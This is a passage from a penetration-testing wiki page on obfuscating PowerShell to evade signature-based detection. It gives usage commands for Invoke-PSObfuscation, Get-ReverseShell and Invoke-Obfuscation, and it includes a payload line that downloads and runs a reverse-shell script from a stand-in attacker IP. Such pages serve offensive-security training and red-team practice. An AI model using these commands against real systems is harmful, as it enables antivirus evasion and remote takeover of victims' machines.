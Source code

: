 # PowerShell Obfuscation

## Theory

Following techniques aiming to evade detection based on signatures by obfuscating PowerShell scripts and commands.

## Practice

### Invoke-PsObfuscation

{% tabs %}
{% tab title="Tool" %}
[invoke-psobfuscation](https://github.com/gh0x0st/invoke-psobfuscation) is a powerfull powershell obfuscating tool.&#x20;

{% hint style="success" %}
We may use invoke-psobfuscation using `pwsh`on a unix-like host
{% endhint %}

We can import the tool as follows.

```powershell
Import-Module ./Invoke-PSObfuscation.ps1
```

To obfuscate a powershell file, use the following cmdlets.

```powershell
# Using all switches
Invoke-PSObfuscation -Path in.ps1 -PipelineVariables -Pipes -Cmdlets -Methods -Integers -Aliases -Comments -NamespaceClasses -Variables -Strings -OutFile out.ps1
```
{% endtab %}
{% endtabs %}

### Get-ReverseShell

{% tabs %}
{% tab title="Tool" %}
[Get-ReverseShell](https://github.com/gh0x0st/Get-ReverseShell) is a tool with the sole purpose of producing obfuscated reverse shells for PowerShell.

{% hint style="success" %}
We may use Get-ReverseShell using `pwsh`on a unix-like host
{% endhint %}

We can import the tool as follows.

```powershell
Import-Module ./get-reverseshell.ps1
```

To generate a revers shell, use the following cmdlets

```powershell
# To stdout
Get-ReverseShell -Ip $IP -Port $PORT

# To file
Get-ReverseShell -Ip $IP -Port $PORT -OutFile /path/to/rev.ps1
```
{% endtab %}
{% endtabs %}

### Invoke-Obfuscation

{% tabs %}
{% tab title="Tool" %}
[Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) is a PowerShell v2.0+ compatible PowerShell command and script obfuscator. Even though it is quite old, it is still relevant for bypassing static detections.

{% hint style="success" %}
We may use Invoke-Obfuscation using `pwsh`on a unix-like host
{% endhint %}

We can import and start the tool as follows.

```powershell
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
```

Here are some usage examples:

```powershell
# Set a payload from a ScriptBlock
Invoke-Obfuscation> set ScriptBlock iex(iwr http://ATTACKING-IP/rev.ps1 -UseBasicParsing)

# Set a payload from file
Invoke-Obfuscation> set ScriptPath /path/to/script.ps1

# Exemple: Obfuscate entire command as a String
Invoke-Obfuscation> STRING
Invoke-Obfuscation> 1

# You may chains obfuscation methods
# Exemple: Obfuscate entire command via HEX encoding 
Invoke-Obfuscation> MAIN
Invoke-Obfuscation> ENCODING
Invoke-Obfuscation> 2

# Choose a luancher
# Example: PowerShell luancher
Invoke-Obfuscation> MAIN
Invoke-Obfuscation> LAUNCHER
Invoke-Obfuscation> PS
Invoke-Obfuscation> 7

# Save payload to file
Invoke-Obfuscation> OUT
Enter path for output file (or leave blank for default): obf.ps1
```
{% endtab %}
{% endtabs %}

### Unicorn

